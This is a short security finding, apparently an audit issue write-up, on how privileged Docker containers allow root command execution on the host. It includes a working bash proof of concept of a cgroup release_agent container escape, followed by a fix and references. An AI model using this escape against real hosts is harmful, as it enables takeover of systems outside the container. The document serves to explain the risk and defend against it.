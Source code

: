 # Privileged Docker Container

## Issue
Any docker container running as privileged has sufficient privledges to execute commands as root on the host operating system via:

1. Mounting the host root partition
2. Directly executing processes outside of the container namespace

## Example

The following POC is modified from https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/
```bash
  d="$(dirname $(ls -x /s*/fs/c*/*/r* | head -n1))"
  mkdir -p $d/w
  echo 1 >$d/w/notify_on_release
  t="$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)"
  touch /o
  echo $t/c >$d/release_agent
  printf "#!/bin/sh\n%s > %s/o" "$cmd" "$t">/c
  chmod +x /c
  sh -c "echo 0 >$d/w/cgroup.procs"
  sleep 1
  cat /o

  # Tidy up
  rm /c /o
```

## Fix
The solution is to avoid using privileged containers when possible.

## Resources
https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/
https://www.exploit-db.com/exploits/47147
